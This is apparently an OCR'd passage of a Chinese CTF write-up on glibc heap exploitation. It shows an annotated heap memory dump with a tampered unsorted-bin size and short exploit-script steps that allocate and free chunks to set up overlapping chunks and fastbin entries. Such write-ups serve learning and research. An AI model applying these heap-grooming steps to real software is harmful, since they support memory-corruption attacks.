 ```
0x555555578950:    0x0000000000000000    0x0000000000000031 ------chunk_5
0x555555578960:    0x4141414141414141    0x4141414141414141
0x555555578970:    0x4141414141414141    0x4141414141414141
0x555555578980:    0x4141414141414141    0x0000000000000200 ------unsorted bin (size has been modifed.)
0x555555578990:    0x00007ffff7fc6ca0    0x00007ffff7fc6ca0
0x5555555789a0:    0x0000000000000000    0x0000000000000000
0x5555555789b0:    0x0000000000000000    0x00000000000001e1
0x5555555789c0:    0x00007ffff7fc6ca0    0x00007ffff7fc6ca0
0x5555555789d0:    0x0000000000000000    0x0000000000000000
0x5555555789e0:    0x0000000000000000    0x0000000000000000
0x5555555789f0:    0x0000000000000000    0x0000000000000000
0x555555578a00:    0x0000000000000000    0x0000000000000000
0x555555578a10:    0x0000000000000000    0x0000000000000181
0x555555578a20:    0x00007ffff7fc6ca0    0x00007ffff7fc6ca0
0x555555578a30:    0x0000000000000000    0x0000000000000000
0x555555578a40:    0x0000000000000000    0x0000000000000000
0x555555578a50:    0x0000000000000000    0x0000000000000000
0x555555578a60:    0x0000000000000000    0x0000000000000000
0x555555578a70:    0x0000000000000000    0x0000000000000121
0x555555578a80:    0x00007ffff7fc6ca0    0x00007ffff7fc6ca0
0x555555578a90:    0x0000000000000000    0x0000000000000000
0x555555578aa0:    0x0000000000000000    0x0000000000000000
0x555555578ab0:    0x0000000000000000    0x0000000000000000
0x555555578ac0:    0x0000000000000000    0x0000000000000000
0x555555578ad0:    0x0000000000000000    0x00000000000000c1
0x555555578ae0:    0x00007ffff7fc6ca0    0x00007ffff7fc6ca0
0x555555578af0:    0x0000000000000000    0x0000000000000000
0x555555578b00:    0x0000000000000000    0x0000000000000000
0x555555578b10:    0x0000000000000000    0x0000000000000000
0x555555578b20:    0x0000000000000000    0x0000000000000000
0x555555578b30:    0x0000000000000000    0x0000000000000061
0x555555578b40:    0x00007ffff7fc6ca0    0x00007ffff7fc6ca0
0x555555578b50:    0x0000000000000000    0x0000000000000000
0x555555578b60:    0x0000000000000000    0x0000000000000000
0x555555578b70:    0x0000000000000000    0x0000000000000000
0x555555578b80:    0x0000000000000000    0x0000000000000000
0x555555578b90:    0x0000000000000210    0x0000000000000060 --------chunk_7,be used to forward merge.
0x555555578ba0:    0x0000000000000000    0x0000000000000000
0x555555578bb0:    0x0000000000000000    0x0000000000000000
0x555555578bc0:    0x0000000000000000    0x0000000000000000
0x555555578bd0:    0x0000000000000000    0x0000000000000000
0x555555578be0:    0x0000000000000000    0x0000000000000000
```

然后通过malloc_chunk为overlapped 做准备 ， 并且将fastbin中的chunk准备好。

```
#reduce the idx number.
delete(3)
delete(4)

#malloc some chunk , prepare for overlapped chunk.
add(0x48) # idx 3
add(0x48) # idx 4
add(0x48) # idx 6
add(0x48) # idx 8
add(0x58) # idx 9
add(0x58) # idx 10

#The delete order can't be changed.
delete(7)
delete(3)
```